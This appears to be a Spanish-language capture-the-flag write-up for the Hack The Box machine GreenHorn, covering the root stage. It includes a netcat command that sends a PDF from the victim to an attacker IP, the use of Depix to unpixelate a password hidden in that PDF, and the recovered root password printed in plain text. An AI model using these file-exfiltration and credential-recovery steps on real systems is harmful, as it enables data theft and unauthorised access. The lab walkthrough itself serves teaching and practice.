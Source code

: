 ## root

muy bien si vamos al directorio home de junior encontramos lo siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211151852.png)

vamos a pasarnos el pdf a nuestra maquina atacante para poder verlo

vamos a usar netcat 

```bash
sudo nc -nlvp 1234 > OpenVAS_file.pdf
```
y en la maquina victima
```bash
nc 10.10.16.72 1234 < 'Using OpenVAS.pdf'
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211152414.png)

ya lo tenemos por lo que vamos a abrirlo

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153028.png)
vemos que hay una contraseña pero que esta pixelada

podemos usar una herramienta llamada deplix para quitar el pixelado

para ello hacemos una captura a la parte pixelada
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153322.png)

nos bajamos deplix
https://github.com/spipm/Depix

y lo ejecutamos en mi caso de esta forma:

```bash
python3 depix.py -p /home/zzero/GreenHorn/content/Captura\ de\ pantalla\ -2024-12-11\ 15-32-47.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o depixelated_text.png
```
y nos da esto
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153657.png)

que quiero entender que la contraseña es :
sidefromsidetheothersidesidefromsidetheotherside

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241211153810.png)
y si que lo es 
por lo que somos root
